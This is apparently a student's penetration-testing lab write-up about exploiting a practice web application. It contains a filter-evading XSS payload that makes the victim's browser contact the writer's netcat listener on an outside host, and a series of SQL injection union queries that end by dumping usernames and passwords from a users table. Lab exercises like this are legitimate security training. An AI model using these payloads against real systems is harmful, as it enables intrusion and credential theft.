


### 9.5.1 Exercises
#### 1. Identify and exploit the XSS vulnerability in the web application.

The Search menu has a XSS vulnerability even though it attempts to sanitize the code, it does not do so recursively, allowing an attacker to imbed tags within tags that will survive the sanitization process.  The filter differs slightly on how it handles these tags, but I was able to use it to have the client attempt to retrieve a page from my netcat listener using this string:

`http://192.168.216.10:9090/search?search=<ifriframeame src=http://192.168.119.216:8000/cool.jpg height="0" width="0"></ifriframeame>`

This causes the client to contact my netcat listener:



#### 2. Identify and exploit the SQL injection vulnerability in the web application.

```sql
--Enumerated columns
gadget') order by 5--

--Discovered DB Version
gadget') union all select 1,'2',H2VERSION(),4,5 from DUAL--

--Enumerated Tables
gadget') union all select 1,'2',table_name,4,5 from information_schema.tables--

--Enumerated Users Table Columns
gadget') union all select 1,'2',column_name,4,5 from information_schema.columns where table_name=UPPER('USERS')--

--Displayed User Table contents
gadget') union all select 1,username,password,4,5 from users--
```

DB Version: 



Admin User: 


#### 3. Is it possible to gain a shell through the SQL injection vulnerability? Why or why not?

